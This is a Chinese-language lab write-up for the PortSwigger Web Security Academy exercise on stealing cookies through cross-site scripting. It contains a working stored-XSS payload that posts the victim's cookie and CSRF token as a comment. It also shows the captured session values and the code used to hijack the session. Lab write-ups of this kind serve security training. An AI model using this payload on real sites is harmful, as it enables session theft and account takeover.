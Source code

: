 | Dimension | Description                                                                                                           |
| --------- | --------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/cross-site-scripting/exploiting#exploiting-cross-site-scripting-to-steal-cookies |
| Lab       | https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies                             |

這題本來是設計給有買 Burp Suite Professional 的人類，但 hint 有說到，也有方法不需要

我是參考 [這個影片](https://www.youtube.com/watch?v=N_87S9XVy0w) 的解法，概念我都懂，只是為啥我用 postId=2 這篇文章，就沒有受害者瀏覽呢？後來是跟著影片一起用 postId=5，就有成功看到受害者 Po 文

1. 發現 Comment 欄位完全沒有防護，可以直接插入 `<script>`
2. 構造以下 html，讓受害者瀏覽留言時，背後發送一個留言的 API

```html
<script>
  addEventListener("DOMContentLoaded", () => {
    const csrf = document.querySelector("input[name='csrf']").value;
    const cookie = document.cookie;
    fetch(
      "https://0abc008a03bfe38780a1042b00c3002a.web-security-academy.net/post/comment",
      {
        headers: {
          "content-type": "application/x-www-form-urlencoded",
        },
        referrer:
          "https://0abc008a03bfe38780a1042b00c3002a.web-security-academy.net/post?postId=2",
        body: `csrf=${csrf}&postId=5&comment=${cookie}&name=${new Date().getTime()}&email=789%40789&website=`,
        method: "POST",
        mode: "cors",
        credentials: "include",
      },
    );
  });
</script>
```

3. 看到受害者瀏覽留言後，會發送一個留言


```
secret=HEta6nCEhiztNlcHwjpE1PimJ3lpxmhJ;
session=RlrBG3zwpRjdyVblTWlne4ILI38vhc4m
```

4. 拿著這組 cookie 去訪問右上角的 `/my-account` 網址，成功解題～

```js
document.cookie = "session=RlrBG3zwpRjdyVblTWlne4ILI38vhc4m";
fetch(
  "https://0abc008a03bfe38780a1042b00c3002a.web-security-academy.net/my-account",
);
```

## Lab: Exploiting cross-site scripting to capture passwords
